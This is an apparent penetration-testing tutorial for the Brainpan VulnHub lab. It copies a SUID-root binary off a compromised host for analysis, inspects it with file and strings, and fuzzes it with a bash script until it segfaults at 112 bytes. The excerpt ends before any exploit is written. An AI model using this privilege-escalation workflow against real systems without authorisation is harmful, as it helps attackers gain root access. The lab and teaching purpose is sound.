 # Local Buffer Overflow
Have you found a Linux ELF binary that shows signs of homebrew and is SUID to root? Let's analyze the `/usr/local/bin/validate` file from the Brainpan lab exercise from VulnHUB.com

## Bring it on Home
First, we need to bring the binary back to our attacker machine for analysis. We can do so two different ways that are descibed in the [Data Exfiltration Infiltration](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Post%20Exploitation/data-exfiltration-infiltration.md) cheat sheet in the Grimoire. We do this so that we can easilt analyze the binary using forensics tools that the compromised host might not have installed. 

Ensure that the binary was successfully transferred without corruption by using the `md5sum` command on the binary at the compromised Target system and compare it to the md5sum of the binary on your local Attacker machine.
```
root@attacker-machine:~# md5sum validate
9e7865f1e663529db5d8b1ecb7118490  validate
```
```
user@target-machine:~$ md5sum validate
9e7865f1e663529db5d8b1ecb7118490  validate
```
## File Command
The #1 step for binary analysis on our Attacker system is to run the `file` command. The output of this command is valuable in ensuring,
1. What type of file we have, in our case ELF 32-bit
2. Which libraries/interpreters are required for the binary to execute, in our case was , `/lib/ld-linux.so.2`

So, to get [`/lib/ld-linux.so.2`](https://packages.debian.org/stretch/libc6-i386) installed on our local Attacker system, we will need the `libc6-i686` package.
```
root@attacker-machine:~# apt install libc6-i386
```
## Strings
The #2 step to analyzing a binary is to use the `strings command`. Strings will prvide us with more clues, in our case we see,
```
usage %s <input>
validating input...
passed.
```
So, we know that the application does handle input.
### Fuzz it
Next, we simply pass the application input in increasing sizes until we get it to Segmentation Fault. I wrote a nice little script that will determnine the buffer size for us below. Simply pass the binary's name, n our case `validate`, as an argument.
```
#!/bin/bash
# Standard In C program fuzzer
# 2019 WeakNet Labs, Douglas Berdeaux
buf="" # this will be the buffer overflow
appname=$1 # pass to me the app name
while [ 1 ]
 do
  buf+="A"
  #printf "[*] buf is now: $buf\n";
  seg=$(./${appname} $buf || echo "0x031337" | egrep "0x031337"| wc -l)
  if [[ "$seg" == "1" ]]
   then
    printf "[!] Segmentation Fault Successful! ($(echo -n $buf|wc -m)) bytes.\n"
    exit;
  fi
done;
```
and the output,
```
root@attacker-machine:~# ./stdin-fuzz.sh validate
[!] Segmentation Fault Successful! (112) bytes.
root@attacker-machine:~#
```
